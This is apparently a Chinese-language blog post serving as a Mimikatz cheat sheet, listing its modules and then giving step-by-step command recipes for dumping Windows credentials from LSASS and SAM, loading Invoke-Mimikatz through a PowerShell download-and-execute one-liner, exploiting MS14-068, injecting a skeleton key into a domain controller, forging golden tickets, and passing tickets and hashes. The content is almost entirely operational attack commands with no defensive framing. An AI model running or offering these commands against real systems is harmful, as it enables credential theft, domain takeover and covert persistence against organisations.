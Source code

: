 ```yaml
---
layout: post
title: Mimikatz常用
---
```



# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

------------------------------


`CLS`---------------------------- 清屏
`CRYPTO::CERTIFICATES` –--------- 列出/导出凭证
`EXIT`--------------------------- 退出
`KERBEROS::GOLDEN` –------------- 创建黄金票证/白银票证/信任票证
`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。
`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。
`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。
`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”
`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。
`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。
`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。
`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。
`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
`NOGPO::CMD`--------------------- 打开系统的CMD.EXE
`NOGPO::REGEDIT` ---------------- 打开系统的注册表
`NOGPO::TASKMGR`----------------- 打开任务管理器
`PROCESS::LIST`------------------ 列出进程
`PROCESS::SUSPEND 进程名称` ------ 暂停进程
`PROCESS::STOP 进程名称`---------- 结束进程
`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置
`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。
`PRIVILEGE::LIST`---------------- 列出权限列表
`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限
`SYSTEM::USER`------------------- 查看当前登录的系统用户
`SYSTEM::COMPUTER`--------------- 查看计算机名称
`SERVICE::LIST`------------------ 列出系统的服务
`SERVICE::REMOVE`---------------- 移除系统的服务
`SERVICE::START STOP 服务名称`---- 启动或停止服务
`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码
`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码
`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥
`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）
`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据
`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关的 KEY(S)）
`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。
`TS::SESSIONS`------------------- 显示当前的会话
`TS::PROCESSES`------------------ 显示进程和对应的PID情况等
`TOKEN::LIST` –------------------ 列出系统中的所有令牌
`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)